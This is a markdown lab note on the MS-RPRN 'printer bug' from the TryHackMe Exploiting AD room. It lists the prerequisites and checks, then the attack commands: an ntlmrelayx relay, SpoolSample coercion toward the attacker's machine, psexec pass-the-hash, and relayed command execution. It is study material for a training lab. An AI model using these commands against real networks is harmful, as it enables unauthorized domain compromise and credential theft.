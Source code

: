 # The Printer Bug

## What is it

The printer bug is a "feature" of the MS-RPRN protocol (PrintSystem Remote Protocol), which allows a domain user to remotely force a target host running the Print Spooler service to authenticate to an arbitrary IP address. There have been a few of these bugs in recent years: Spooler, PetitPotam, PrintNightmare. Microsoft claims that the only bug is that some of these did not require AD credentials at all, but this issue has been resolved through security patches.

Therefore, to exploit this, apart from machine account administrative privileges, we also need to meet the following four conditions :

1. A valid set of AD account credentials.
2. Network connectivity to the target's SMB service.
3. The target host must be running the Print Spooler service.
4. The hosts must not have SMB signing enforced.

## Check requirements

- In Powershell `GWMI Win32_Printer -Computer thmserver2.za.tryhackme.loc` See if Print Spooler service is running or `Get-PrinterPort -ComputerName thmserver2.za.tryhackme.loc`
- Check SMB Signing `nmap --script=smb2-security-mode -p445 <COMPROMISED-HOST> <TARGET-HOST>`  
![Nmap SMB signing](../.res/2022-07-30-14-38-08.png)  

## Attack

- Set up the NTLM relay `python3.9 /opt/impacket/examples/ntlmrelayx.py -smb2support -t smb://"<TARGET-IP>" -debug`  
![NTLM relay](../.res/2022-07-30-14-45-20.png)
- From our compromise host we use [SpoolSample](https://github.com/leechristensen/SpoolSample) `SpoolSample.exe THMSERVER2.za.tryhackme.loc "IP of your Attacking machine"`  
![SpoolSample](../.res/2022-07-30-14-47-17.png)
- Some hashes should start to drop  
![Hash drop](../.res/2022-07-30-14-49-39.png)
- We can then connect with psexec `python3.9 /opt/impacket/examples/psexec.py thmdc.za/ServerAdmin@10.200.83.201 -hashes HASH:HASH`  
![Psexec](../.res/2022-07-30-14-52-23.png)
-It is also possible to make a command with ntlmrelay like this `python3.9 ntlmrelayx.py -smb2support -t smb://"<TARGET IP>" -c 'whoami /all' -debug`

## Resources

- [TryHackMe - Exploiting AD - Task 4](https://tryhackme.com/room/exploitingad)